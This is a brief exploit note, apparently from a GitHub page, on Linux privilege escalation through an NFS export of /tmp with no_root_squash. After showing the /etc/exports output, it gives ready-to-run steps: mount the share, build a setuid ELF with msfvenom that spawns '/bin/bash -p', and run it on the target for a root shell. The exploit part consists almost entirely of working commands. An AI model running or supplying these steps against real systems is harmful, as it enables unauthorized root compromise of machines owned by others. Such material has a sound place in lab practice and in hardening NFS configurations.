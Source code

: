    
   
   
 ### Type Command
 
     cat /etc/exports
     
 ### OUTPUT 
 
         /etc/exports: the access control list for filesystems which may be exported
         #		to NFS clients.  See exports(5).
         #
         # Example for NFSv2 and NFSv3:
         # /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
         #
         # Example for NFSv4:
         # /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
         # /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
         #

         /tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

         #/tmp *(rw,sync,insecure,no_subtree_check)


  ### Exploit
  
  Open Your LOCAL MACHINE AND TYPE COMMAND
  
    mkdir /tmp/asif
    mount -o rw,vers=2 <Target IP>:/tmp /tmp/asif
    msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/asif/shell.elf
    chmod +xs /tmp/asif/shell.elf
  Type A Remote Machine
  
    /tmp/shell.elf




